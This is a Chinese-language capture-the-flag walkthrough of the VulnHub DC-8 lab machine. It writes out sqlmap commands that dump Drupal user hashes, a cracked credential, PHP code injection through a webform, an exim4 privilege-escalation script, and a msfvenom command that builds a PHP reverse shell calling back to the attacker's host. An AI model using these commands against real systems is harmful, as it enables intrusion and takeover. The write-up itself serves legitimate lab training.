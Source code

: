## DC-8 : Walkthrough

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP              |
| ------------- | --------------- |
| 本机（Win10） | `192.168.1.105` |
| Kali          | `192.168.1.112` |
| DC-8          | `192.168.1.108` |

### 扫描端口和版本信息

`nmap -A 192.168.1.108`

![1](../src/vulnhub/dc_8/1.png)

### 访问 Web 并确定 Web 应用

根据 Nmap 扫描结果可知，Web 应用程序运行的是 **Drupal 7** CMS

![2](../src/vulnhub/dc_8/2.png)

经过 OSINT 查找得知该版本有许多漏洞，但是利用都不成功。

此外观察到导航栏选项链接与页面中的链接不一致，并且带有参数 `?nid=2` ，看到带查询参数，第一反应就是存在 SQL注入，经过简单验证可证明存在注入漏洞

![3](../src/vulnhub/dc_8/3.png)

之后用 *sqlmap* 工具进行 SQL 注入

```sql
sqlmap -r post.txt --dbs --batch
sqlmap -r post.txt -D d7db --tables --batch
sqlmap -r post.txt -D d7db -T users --columns --batch
sqlmap -r post.txt -D d7db -T users -C "name,pass" --dump --batch
```

![4](../src/vulnhub/dc_8/4.png)

使用 *john* 破解 hash 密码

![5](../src/vulnhub/dc_8/5.png)

得到一个账户和密码：`john:turtle`。使用该账户登录系统，探索后发现在 *webform* 的 *form settings* 选项中可以插入 PHP 代码

### Getshell

![6](../src/vulnhub/dc_8/6.png)

切换到有填写表单的页面，随意输入一些信息后提交即可 getshell

![7](../src/vulnhub/dc_8/7.png) 

在 */home/dc8user* 目录下有个隐藏文件 `.google_authenticator`。因此该账户使用 ssh 登录时会有 2FA 认证

![8](../src/vulnhub/dc_8/8.png)

> 查看下系统中安装的 Google 2FA ：`dpkg -l | grep google*`
>
> ```
> ii  libpam-google-authenticator   20160607-2+b1                  amd64        Two-step verification
> ```
>
> 在网上找到绕过 2FA 的几个[方法](https://shahmeeramir.com/4-methods-to-bypass-two-factor-authentication-2b0075d9eb5f)

接下来我们查找具有 SUID 权限的工具

![9](../src/vulnhub/dc_8/9.png)

其中 *exim4* 比较可疑

![10](../src/vulnhub/dc_8/10.png)

搜索一下该软件漏洞

![11](../src/vulnhub/dc_8/11.png)

### 提权

将该脚本传到虚拟机上后执行

> 更改下换行符：`sed -i "s/\r//" 46996.sh`

![12](../src/vulnhub/dc_8/12.png)

### 总结

1. 插入 PHP 代码时，使用 *msfvenom* 生成 **php** 反向 shell 代码：

   `msfvenom -p php/reverse_php LHOST=192.168.1.112 LPORT=8888 -f raw -o recvshell.php`

   同时 Kali 端运行 msf

   ```
   use exploit/multi/handler
   set payload php/reverse_php
   ```

   > `ctrl+z` 将会话放置到后台
   
   
   
2. 虽然知道 ssh 登录时会进行 2FA 认证，认证密码是 6 个数字，可以采取暴力破解。但是在输入认证密码之后仍然需要输入密码，因此想要绕过 2FA 难度较大
